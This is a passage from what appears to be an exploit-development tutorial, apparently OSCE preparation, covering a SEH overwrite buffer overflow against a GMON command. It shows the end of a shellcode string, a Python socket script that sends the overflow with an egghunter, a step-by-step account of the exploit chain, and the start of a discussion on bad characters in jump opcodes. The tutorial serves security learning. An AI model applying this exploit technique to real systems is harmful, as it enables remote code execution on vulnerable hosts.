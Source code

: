 ```python
"\xcc\xe6\x53\x5c\x22\xaf\xcc\xc9\xdb\xea\x86\x68\x23\x21\xe3"
"\xab\xaf\xc6\x14\x65\x58\xa2\x06\x12\xa8\xf9\x74\xb5\xb7\xd7"
"\x10\x59\x25\xbc\xe0\x14\x56\x6b\xb7\x71\xa8\x62\x5d\x6c\x93"
"\xdc\x43\x6d\x45\x26\xc7\xaa\xb6\xa9\xc6\x3f\x82\x8d\xd8\xf9"
"\x0b\x8a\x8c\x55\x5a\x44\x7a\x10\x34\x26\xd4\xca\xeb\xe0\xb0"
"\x8b\xc7\x32\xc6\x93\x0d\xc5\x26\x25\xf8\x90\x59\x8a\x6c\x15"
"\x22\xf6\x0c\xda\xf9\xb2\x2d\x39\x2b\xcf\xc5\xe4\xbe\x72\x88"
"\x16\x15\xb0\xb5\x94\x9f\x49\x42\x84\xea\x4c\x0e\x02\x07\x3d"
"\x1f\xe7\x27\x92\x20\x22")


buffer = 'A' * (3514 - len(egg + shellcode))
buffer += egg
buffer += shellcode
buffer += nSeh
buffer += Seh
buffer += egghunter
buffer += 'C' * (5012 - len(buffer))


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("GMON /.../" + buffer)
print s.recv(1024)
s.close()
```

And performed the following: 
1. causes an exception by overflowing the application's buffer;
2. the overflow also overwrites the SEH component;
3. we place a `POP POP RET` instruction in the 'Current SE handler' address;
4. the `POP POP RET` instruction places code execution at the pointer pointing towards the next SEH record;
5. this address has been overwritten with instructions to jump forward 6 bytes;
6. after jumping forward 6 bytes, the instruction at this location is an egghunter which will find our shellcode that's been prepended twice with our egg; and finally,
7. execute the shellcode. 

## Self-Imposed Character Restrictions

Luckily for us, our `GMON` overflow only restricted us from using `\x00` bytes, but our goal here is to learn as many tricks as possible before CTP/OSCE, so we'll try to make things a little harder. Let's look at our jumpcode in `nSeh`: `\xeb\x06\x90\x90`
+ `\xeb` is the opcode for a short jump,
+ `\x06` is the amount of bytes we want to jump forward,
+ `\x90` is just a no-operation which is just filler since we need 4 bytes total. 

But what would we do if `\xeb` happened to be a bad character? How would we jump to our egghunter? 

## Conditional Short Jumps
